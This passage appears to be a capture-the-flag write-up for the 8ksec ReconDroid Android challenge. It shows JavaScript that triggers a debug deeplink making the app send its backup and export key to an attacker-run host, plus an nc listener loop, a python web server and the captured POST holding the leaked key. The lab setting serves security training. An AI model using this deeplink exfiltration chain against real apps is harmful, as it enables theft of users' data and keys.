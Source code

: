 ```HTML
    status.textContent  = '';

    const deeplink =
      `recondroid://debug` +
      `?action=get_key` +
      `&host=${SERVER_HOST}` +
      `&port=${SERVER_PORT}`;

    console.log('Deeplink:', deeplink);
    window.location.href = deeplink;

    setTimeout(() => {
      loading.style.display = 'none';
      status.textContent =
        `Intent sent -> check netcat command -- ${SERVER_HOST}:${SERVER_PORT}`;
    }, 3500);
  }
</script>
</body>
</html>
```

And we can setup a listener using `nc` (where we'll receive the data)
```bash
while true; do
nc -lnvp 7777 > recon.txt
head -n 500 recon.txt
done
```
This **command will print the first 500 lines of the content that we stolen from our web page**.
Setup a *python* web server with
```bash
python3 -m http.server 8080
```

Go to your `<ip>:<port>` page, and then, **click on the link that will trigger** the *intent*.
In netcat command we can notice the **established connection** from our device and the content backup.

![[8ksec-ReconDroid_3.png]]

The content that the app will send to us:
```bash
Connection from 192.168.0.124:51928
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=7498722a-19b4-4754-a628-a44285a84de1
Content-Length: 64028
Host: 192.168.0.124:7777
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/4.12.0

--7498722a-19b4-4754-a628-a44285a84de1
Content-Disposition: form-data; name="file"; filename="recondroid_backup_2025-07-27_20-05-46.txt"
Content-Type: text/plain
Content-Length: 63635

ReconDroid Application Backup
Generated: Sun Jul 27 20:05:46 GMT 2025
Total Applications: 17
Export Key: uFC7WNoKLipKUtf4X81nAepoSL9E+AlgKwmFzE6enY0=
Storage Location: /storage/emulated/0/Android/data/com.eightksec.recondroid/files/Documents/backups
==================================================

Application: Android System Key Verifier
```
